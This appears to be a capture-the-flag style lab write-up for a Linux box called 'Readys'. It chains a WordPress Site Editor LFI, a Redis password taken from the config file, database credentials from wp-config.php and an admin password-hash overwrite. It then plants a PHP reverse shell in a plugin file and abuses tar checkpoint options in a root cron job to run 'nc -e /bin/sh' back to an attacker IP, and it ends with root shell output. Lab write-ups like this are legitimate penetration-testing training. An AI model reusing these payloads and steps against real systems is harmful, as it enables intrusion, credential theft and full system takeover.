

# Readys - Linux - Intermediate

## Enumeration

* nmap
```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
6379/tcp open  redis   Redis key-value store
```
* 80-> wordpress site
* wpscan shows site editor 1.1 plugin installed.
* Its is vulnerable to LFI. (https://www.exploit-db.com/exploits/44340)
  - http://192.168.141.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
  
* Redis config files path -> /etc/redis/redis.conf
* We are able to get password in security field
```
# Warning: since Redis is pretty fast an outside user can try up to
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
#
requirepass Ready4Redis?

# Command renaming.
#
```
## Initial Access

* https://github.com/n0b0dyCN/redis-rogue-server



## Priv Esc

* Found mysql creds in wp-config.php.
```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'karl' );
define( 'DB_PASSWORD', 'Wordpress1234' );
define( 'DB_HOST', 'localhost' );
```

* Change the admin hash and login to wordpress.
```
select * FROM wp_users;
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email    | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com | http://localhost | 2021-07-11 16:35:27 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)

MariaDB [wordpress]> UPDATE wp_users SET user_pass = MD5('Admin@123') WHERE user_login = 'admin';
< wp_users SET user_pass = MD5('Admin@123') WHERE user_login = 'admin';      
Query OK, 1 row affected (0.008 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [wordpress]> select * from wp_users;
select * from wp_users;
+----+------------+----------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email    | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | 0e7517141fb53f21ee439b355b5a1d0a | admin         | test@test.com | http://localhost | 2021-07-11 16:35:27 |                     |           0 | admin        |
+----+------------+----------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)

```

* Plugins-> site-editor -> place reverse shell in index.php
```
<?php
$ip = '192.168.45.224';
$port = 1234;

$sock = fsockopen($ip, $port);
$proc = proc_open(
    '/bin/sh -i',
    array(
        0 => $sock,
        1 => $sock,
        2 => $sock
    ),
    $pipes
);
?>
```
* Access it via http://192.168.141.166/wp-content/plugins/site-editor/index.php .

* Get shell as alice.

* a cron job is running as root in /usr/local/bin/backup.sh
```

cat /usr/local/bin/backup.sh 
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```
* It is possible to breakout of a shell with tar. (https://gtfobins.github.io/gtfobins/tar/)

```
$echo '#!/bin/bash' > backup.sh
$echo 'nc -e /bin/sh 192.168.45.224 443' >> backup.sh
$ cat backup.sh
#!/bin/bash
nc -e /bin/sh 192.168.45.224 443

$ touch ./"--checkpoint=1"
$ touch ./"--checkpoint-action=exec=bash backup.sh"
```

* Get shell as root
```
┌──(kali㉿kali)-[~/…/Offsec/Lab-Notes/Readys/redis-rogue-server]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.45.224] from (UNKNOWN) [192.168.141.166] 54338
id
uid=0(root) gid=0(root) groups=0(root)
```


